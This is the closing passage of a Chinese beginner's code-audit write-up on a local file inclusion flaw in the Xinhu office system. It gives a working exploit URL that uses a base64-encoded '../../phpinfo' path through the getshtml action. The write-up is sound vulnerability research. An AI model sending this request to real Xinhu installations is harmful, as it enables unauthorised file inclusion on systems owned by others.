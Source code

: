 ```php
$actname = ''.$a.'Action';
```

跟踪`$a`,

```php
$a = $rock->get('a', $a);
```

可以看到`$a`赋值所使用的方法同变量`$m`相同,也就意味着`$a`也可控,那我们可以直接给控制`$a`为`getshtml`.从而实现调用`webmain/index/indexAction.php`中`indexClassAction`的`getshtmlAction()`函数,在配合`$surl`可控,就可以实现任意.php文件读取.



## 漏洞利用

现存在文件`phpinfo.php`,内容为:

```php
<?php phpinfo();
```

与`include/View.php`之间的目录关系为

```
view.php/../../phpinfo.php
```

先登录进信呼协同办公系统后台,再构造url参数,访问

```
?m=index&a=getshtml&surl=Li4vLi4vcGhwaW5mbw==
```

其中,`Li4vLi4vcGhwaW5mbw==`为`../../phpifo`base64编码后的结果.

![image-20211124124142906](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20211124124142906.png)

可以看到成功包含已知相对路径下的`phpinfo.php文件`

# 0x03总结

本次代码审计的流程主要使用`敏感函数参数回溯`的方法,通过代码审计工具定位到敏感函数`include_once`,回溯敏感函数中关于参数`$mpathname`的定义以及赋值的操作.再发现其中涉及到函数以及变量再进行回溯,直到发现漏洞点.这种方法的优点可以通过敏感函数或者敏感关键字快速挖掘到想要的漏洞,但由于没有通读代码,对程序的整体框架了解得不够深入,可能会忽略掉部分逻辑漏洞

其次,再使用`敏感函数参数回溯法`的时候,可能在回溯过程中遇到的变量越来越多,我们不可能短时间内对每个变量和每个函数都进行回溯和跟踪,要学会判断在什么暂停回溯当前变量而去回溯其他变量.有时候代码审计的战线可能会拉的很长,我们得时刻专注和记忆过程中遇到的变量,只有清楚每个变量的变化过程才能更好的挖掘漏洞.

以上就是我本次审计过程中的主要思路以及操作流程,可能过程中存在一些欠佳甚至错误的操作.代码审计入门,希望师傅们多多指出不足.

